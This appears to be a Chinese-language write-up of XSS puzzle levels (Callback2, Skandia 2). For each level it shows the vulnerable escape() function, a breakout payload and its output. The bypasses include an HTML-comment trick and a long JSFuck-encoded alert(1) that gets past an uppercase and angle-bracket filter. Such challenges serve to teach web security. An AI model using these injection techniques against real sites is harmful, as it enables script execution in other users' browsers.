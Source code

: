 payload:
`</</scriptscript><script>alert(1)//`


output
`<script>console.log("</script><script>alert(1)//");</script>`

## Callback2
```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

与 `Callback` 题目类似的，不同之处在于在本题中过滤了反斜杠。这就导致了 `Callback`的答案中的注释 `//` 是无法使用的。但是鉴于最后的JavaScript的代码会嵌入了html代码中，因此可以考虑使用html的注释方法来完成本题。
javascript 的注释是有三种的，分别为 `//`  `/**/`  `<!--`。

payload:
`'#';alert(1)<!--`

Output
` <script>'({"userdata":"';alert(1)<!--"})</script>`

## Skandia 2

```
function escape(s) {
  if (/[<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

一旦匹配到 【<】 和 【>】 就会直接返回 `-`，又检查大写，但是不能输入 `<` 和 `>` ，能不能对alert变换一下呢。
参考其他的博客，都说用到了 `jsfuck`。

### jsfuck

jsfuck 以这种风格写成的代码中仅使用 `[` 、 `]`、 `(`、 `)`、 `!` 和 `+` 六种字符。此编程风格的名字派生自仅使用较少符号写代码的Brainfuck语言。但与其他深奥编程语言不同的是，以JSFuck风格写出的代码不需要另外的编译器或解释器来执行，无论浏览器或JavaScript引擎中的原生JavaScript解释器皆可直接运行。

加密网站：http://www.jsfuck.com/

这里仅需要将 `");alert(1)//` 中的 `alert(1)`用jsfuck语言表示出来即可。

```
");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//
```
